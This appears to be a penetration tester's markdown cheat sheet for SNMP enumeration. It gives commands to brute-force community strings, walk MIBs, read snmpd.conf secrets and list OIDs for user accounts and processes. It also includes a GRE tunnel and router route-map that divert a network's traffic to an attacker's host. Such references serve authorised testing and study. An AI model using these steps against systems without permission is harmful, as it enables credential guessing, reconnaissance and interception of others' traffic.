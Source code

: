 # SNMP Commands & Enumeration
======
#### SNMP Get
snmpcheck -t <ip-address> -c <community-string>
#### Brute Force Community String
snmpbrute -t <ip-address>
#### Brute Force Community Strings
onesixtyone -c <community-string-file> -i <ips-file>
#### SNMP Walk
snmpwalk -v1 -c <community-string> -t 10 <ip-address>
#### Start TFTP Server
service atftpd start
#### create GRE tunnel
```

	modprobe ip_gre
	iptunnel add mynet mode gre remote <target> local <tun0> ttl 255
	ip addr add 172.16.0.3/24 dev mynet
	route add -net 172.16.0.0 netmask 255.255.255.0 dev mynet
	ifconfig mynet up
```
#### Redirect all traffic through GRE tunnel
```

	route-map divert permit 10
	 match ip address 102
	 set ip next-hop 172.16.0.3
	
	 fe 1/0 (internal interface)
	 ip policy route-map divert
```
#### Setup Host to Catch GRE Tunnel
```

	 echo 1 > proc/sys/net/ipv4/ip_forward
	 route add -net 10.200.0.0 netmask 255.255.255.0 gw 172.16.0.1
	 iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	 iptables --append FORWARD --in-interface mynet -j ACCEPT
```
#### View Local SNMP Secrets
cat /etc/snmp/snmpd.conf

## Important MIBs
------
#### System Processes
1.3.6.1.2.1.25.1.6.0
#### Running Programs
1.3.6.1.2.1.25.4.2.1.2
#### Processes Path
1.3.6.1.2.1.25.4.2.1.4
#### Storage Units
1.3.6.1.2.1.25.2.3.1.4
#### SoftwareName
1.3.6.1.2.1.25.6.3.1.2
#### User Accounts
1.3.6.1.4.1.77.1.2.25
#### TCP Local Ports
1.3.6.1.2.1.6.13.1.3